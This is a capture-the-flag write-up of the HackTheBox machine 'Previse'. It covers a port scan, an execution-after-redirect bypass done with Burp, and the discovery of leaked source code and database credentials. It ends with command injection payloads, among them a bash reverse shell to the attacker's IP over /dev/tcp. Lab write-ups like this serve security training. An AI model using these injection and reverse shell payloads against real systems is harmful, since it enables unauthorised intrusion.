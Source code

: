 # Previse
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/66cdadd8-4e5d-4b69-847e-30c752492d73)


## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- 10.10.11.104 -sVC --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-13 22:52 PDT
Nmap scan report for 10.10.11.104
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53ed4440116e8bda698579c081f23a12 (RSA)
|   256 bc5420ac1723bb5020f4e16e620f01b5 (ECDSA)
|_  256 33c189ea5973b1788438a421100c91d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-title: Previse Login
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.77 seconds
```

1. Based from the nmap results, the machine runs a web application and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6bb0b815-8bd3-4226-a432-cb09d1e8e1f5)


2. After ran **dirbuster** shall found several files.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b24922d9-109a-4158-9315-c1ddf4565688)


3. Checking every endpoint with **200** as it status code, turns out **nav.php** should be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6757eaa8-b94d-41d2-81c0-bb8884bb4ea2)


4. Click the `CREATE ACCOUNT` option shall redirect you to the login page.
5. Interesting! Intercept the request for that option usingh burpsuite shall resulting to another interesting part.

> NOTICED IT DIRECTS US TO ACCOUNT.PHP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ddccfcd2-399c-44ad-b594-2e592b4707a9)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d2229416-c940-4372-97ef-be9d6f062098)


5. The interesting part is at the response tab where it says `ONLY ADMINS SHOULD BE ABLE TO ACCESS THIS PAGE!!`.
6. Reviewing the source code at the response tab, you shall notice that it leaked all the parameter we need to make an account.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8fe0d1cf-1885-4f3f-b0f0-e7f3fd700674)


7. Anyway, accessing the root (/) page, shall redirect us to login.php.
8. This type of thing is related to `Execution After Redirect (EAR) Vulnerability`.
9. To exploit this vulnerability we can turn on `Server Response Interception` in Burp Proxy. This should allows us to pause or intercept the response (tp prevent it redirected to the another page).

> TURNING ON SERVER RESPONSE INTERCEPTION

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6beb4b9c-cd65-4daa-94f8-571b422c8658)


> TRY ACCESSING ROOT AGAIN


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/31dac8fa-62e7-481e-9e07-975dc59e9e8d)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7ea2398c-09d1-4604-855b-25ec1a9ef3c3)


10. Noticed we are also logged in here.
    
#### NOTES: Anyway another method if you did not want to intercept the response, you can simply intercept the request then right click, then choose --> "Response to this request".

11. To access all the page from the navbar option, use the same method as to access the root page.

> accounts.php page

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/bcefa70b-b8e1-4fcf-894f-3631d944f7b5)


> files.php page

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a9dc12e3-f3ef-401b-8290-d816f796ddaf)


> status.php page

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7cdfc4ad-c9b8-4c9b-95ac-1f3640bb2073)


> file_logs.php

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/17e2daca-6814-4a50-a112-e60ced6e2834)


> log.php (choosing any file delimiter shall resulting to a blank page).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/19fe0d13-ab35-45bb-a7d8-37da76d25a3c)


12. Found several pages that could be our foothold, but two pages caught my attention fully, the accounts.php page and files.php page.
13. After registered dummy account, we can logged in and see all the pages without burp again.

> CREATING ACCOUNR

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6911fdb2-e6de-40a7-8c3f-b8f50955e0b2)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/78e724e2-b186-43df-9b6a-fe58b580501e)


> LOGGING IN

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c5222cc7-de7e-4da2-81a5-efc41870ffcc)


14. Great! Now let's download the attached .zip file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4b909a5b-592d-4985-81d0-6b198db27609)


15. Turns out it's the source code!

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5d894d6a-8cc0-4e9d-9bf6-931606989a6b)


16. Reviewing the config.php source shall found a mysql cred.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/878227d9-2b7d-4ebd-b903-0a3dcf3fe69c)


17. But we can't access it, because it's the port is not opened.
18. Long story short, we know that everytime we submit a delimiter it shows us blank page, but this time it downloads a file.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2b243840-a266-4b47-bcc7-19484b88f696)


> RESULT (ALL)

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/73f214a5-b568-4562-a1af-2a4ab156438b)


19. All of them shows the same data.
20. Interesting, reviewing the logs.php source found **command injection** vuln.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b36b357c-8e64-492f-8a35-0bf595ee4a8a)


21. There is no filter! Great, this should be our foothold.
22. Let's capture the request again using burpsuite.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/ac00b7bc-fe70-4fa7-b69f-10532ffa2651)


23. To test whether our argument is true or not, we can use bash command to ping our tun0 interface then check it on our local machine.

> COMMAND

```
delim=comma;ping -c 4 10.10.16.23 #

delim=comma;ping%20-c%204%2010.10.16.23%20#
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a733fefc-acc7-4d69-8c10-34afbf6b8b55)


24. Great! It indeed execute our bash command, we can drop our reverse shell now.

> REVSHELL PAYLOAD

```
delim=;bash -c 'bash -i >& /dev/tcp/10.10.16.23/1337 0>&1';

delim%3D%3Bbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E23%2F1337%200%3E%261%27%3B
```






 
